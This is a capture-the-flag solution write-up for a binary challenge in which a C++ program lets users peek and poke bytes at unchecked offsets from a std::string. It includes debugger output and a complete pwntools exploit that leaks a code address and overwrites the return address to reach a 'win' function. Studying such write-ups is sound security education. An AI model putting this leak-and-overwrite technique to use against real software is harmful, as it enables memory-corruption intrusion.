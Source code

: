 # Poke and Peek -- Solution

The C++ binary allows the user to read and write bytes at an arbitrary 32-bit offset from the data stored in a `std::string`. The high-level game plan is straightforward -- we need to find a function pointer in a nearby writable memory and modify it to point to the `win` function provided for our convenience. 

```c
    ...
    getline(cin, line);
    istringstream iss(line);
    string command;
    iss >> command;
    if (command == POKE_CMD) {
      int x, y;
      if (!(iss >> x >> y)) {
        cout << HELP.at(POKE_CMD) << endl;
        continue ;
      }
      s[x] = char(y);
    } else if (command == PEEK_CMD) {
      int x;
      if (!(iss >> x)) {
        cout << HELP.at(PEEK_CMD) << endl;
        continue ;
      }
      cout << int(s[x]) << endl;
    }
    ...
```

We start the investation by figuring out where is the `std::string` payload under our control stored in the programs memory. Entering the `tbtltbtl` as he input and investigating with the debugger we get the following results:

```
gef➤  grep tbtltbtl
[+] Searching 'tbtltbtl' in memory
[+] In '[heap]'(0x5558e64ab000-0x5558e64cc000), permission=rw-
  0x5558e64bd4e0 - 0x5558e64bd4ea  →   "tbtltbtl\n" 
[+] In '[stack]'(0x7ffe85bb1000-0x7ffe85bd2000), permission=rw-
  0x7ffe85bcf7c0 - 0x7ffe85bcf7c8  →   "tbtltbtl" 
gef➤  telescope $rsp
0x007ffe85bcf780│+0x0000: 0x00005b0000006e ("n"?)        ← $rsp
0x007ffe85bcf788│+0x0008: 0x007ffe85bcf7e0  →  0x005558e64bcf40  →  0x0000000000000001
0x007ffe85bcf790│+0x0010: 0x007ffe85bcf7d0  →  0xffffffffffffff90
0x007ffe85bcf798│+0x0018: 0x007ffe85bcf7b0  →  0x007ffe85bcf7c0  →  "tbtltbtl"
0x007ffe85bcf7a0│+0x0020: 0xffffffffffffff90
0x007ffe85bcf7a8│+0x0028: 0x005558e64bcee0  →  0x0000000000000000
0x007ffe85bcf7b0│+0x0030: 0x007ffe85bcf7c0  →  "tbtltbtl"
0x007ffe85bcf7b8│+0x0038: 0x0000000000000008
0x007ffe85bcf7c0│+0x0040: "tbtltbtl"
0x007ffe85bcf7c8│+0x0048: 0x007f255ea41000  →  <__malloc_check_init+80> add eax, 0x353ed3
```

It turns out, when the string is short, the data is actually stored on the call stack. Now, we use the debugger to find the offset to the return address to overwrite. To calculate the address of the `win` function, we need to leak the address of some pointer to the programs code:

```python
#!/usr/bin/env python3

from pwn import *

def conn():
    context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])
    if args.REMOTE:
        p = remote('0.cloud.chals.io', 33623)
    else:
        p = process('./chall')
    return p

def poke(p, x, y):
    p.sendlineafter(b':\n', 'poke {} {}'.format(x, y).encode())

def peek(p, x):
    p.sendlineafter(b':\n', 'peek {}'.format(x).encode())
    return int(p.recvline())

def peekq(p, x):
    b = [(peek(p, x+i)+256)%256 for i in range(8)]
    return unpack(bytes(b))

def pokeq(p, x, y):
    for i, c in enumerate(pack(y)):
        poke(p, x+i, c)

p = conn()
magic = b'tbtltbtl'
p.sendlineafter(b':', magic)
assert peekq(p, 0) == unpack(magic)
leak_offset = 0x238
leak_address = peekq(p, leak_offset)
win_address = leak_address + 0xb80
ret_offset = 0x218
pokeq(p, ret_offset, win_address)
p.sendline(b'quit')

p.interactive()
```

Additional challenge: For longer strings, the string data will be allocated on heap. The exploit is still possible but a bit more complicated since its imposible to overwrite stack values using 32-bit offset.